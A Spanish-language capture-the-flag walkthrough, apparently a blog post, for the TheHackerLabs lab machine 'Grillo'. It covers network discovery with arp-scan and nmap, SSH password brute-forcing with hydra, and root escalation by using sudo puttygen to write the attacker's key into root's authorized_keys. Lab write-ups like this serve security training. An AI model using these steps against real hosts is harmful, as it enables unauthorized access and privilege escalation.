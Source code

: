 ```yaml
---
layout: post
title: "Grillo"
date: 2024-06-06 11:35:23
category: sample
vm: hackerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Grillo </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/grillo/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Grillo/host.png){:.margin}

**1\.** Identificando dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Grillo/arp.png){:.margin}

**2\.** Escaneo de puertos y servicios activos.

`sudo nmap -p- --open -sCV -T5 --min-rate=5000 -n -Pn 192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/nmap.png){:.margin}

**3\.** En la web tenemos la pagina de Apache por 'defecto', viendo el codigo fuente por debajo encontramos algo.

`http://192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/80.png){:.margin}
![img](/notas/public/img/thehackerlabs/Grillo/80code.png){:.margin}

**4\.** Haciendo fuerza bruta al ssh. 

`hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/hydra.png){:.margin}

**5\.** Me conecto por ssh.

`ssh melanie@192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/sshmelanie.png){:.margin}

**6\.** Reviso binarios que pueda ejecutarlo como sudo.

`sudo -ll`

![img](/notas/public/img/thehackerlabs/Grillo/sudoll.png){:.margin}

**7\.** Genero claves ssh.

`ssh-keygen`

![img](/notas/public/img/thehackerlabs/Grillo/sshkeygen.png){:.margin}

**8\.** Escalando privilegios.

_\- Agrego la clave publica al authorized_keys de root_

`sudo /usr/bin/puttygen .ssh/id_rsa.pub -O public-openssh -o /root/.ssh/authorized_keys`

_\- Me conecto por ssh como root_

`ssh root@192.168.1.8`

![img](/notas/public/img/thehackerlabs/Grillo/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>